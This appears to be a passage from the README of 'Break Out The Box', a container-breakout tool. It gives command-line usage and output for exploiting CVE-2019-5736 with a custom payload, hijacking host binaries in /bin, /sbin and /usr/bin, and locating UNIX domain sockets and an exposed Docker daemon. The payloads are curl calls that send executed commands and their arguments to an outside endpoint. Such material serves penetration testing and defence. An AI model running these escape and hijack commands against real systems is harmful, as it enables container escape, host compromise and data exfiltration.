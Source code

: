 ### Exploit CVE-2019-5736 with a Custom Payload
Please note that for this exploit to work, a process has to be executed in the target container in this scenario.
```
#./bob_linux_amd64 -aggr='curl "https://some.endpoint.com?command=$0&param1=$1&param2=$2">/dev/null 2>&1'
[+] Break Out The Box[!] WARNING THIS OPTION IS NOT CICD FRIENDLY, THIS WILL PROBABLY BREAK THE CONTAINER RUNTIME BUT YOU MIGHT GET SHELLZ...
[+] Attempting to exploit CVE-2019-5736 with command:  curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$
1&param2=$2">/dev/null 2>&1
[+] This process will exit IF an EXECVE is called in the Container or if the Container is manually stopped
[+] Finished
```

### Hijack Commands/Binaries on a Host with a Custom Payload
Please note that this can be used to test if external entities are executing commands within the container. Examples are Docker Exec and Kubetcl CP.

```
#./bob_linux_amd64 -hijack='curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$
1&param2=$2">/dev/null 2>&1'
[+] Break Out The Box
[!] WARNING THIS WILL PROBABLY BREAK THE CONTAINER BUT YOU MAY GET SHELLZ...
[+] Attempting to hijack binaries
[*] Command to be used:  curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$1&param2=$2">/dev/null 2>&1
[+] Currently hijacking:  /bin
[+] Currently hijacking:  /sbin
[+] Currently hijacking:  /usr/bin
[+] Finished
```

### Find UNIX Domain Sockets
```
#./botb-linux-amd64 -find-sockets=true
[+] Break Out The Box
[+] Hunting Down UNIX Domain Sockets from: /
[!] Valid Socket: /var/meh
[+] Finished

#echo $?
1
```


### Find a Docker Daemon
```
#./bob_linux_amd64 -find-docker=true
[+] Break Out The Box
[+] Looking for Dockerd
[!] Dockerd DOCKER_HOST found: tcp://0.0.0.0:2375
[+] Hunting Docker Socks
[!] Valid Docker Socket: /var/meh
[+] Finished

#echo $?
1
```
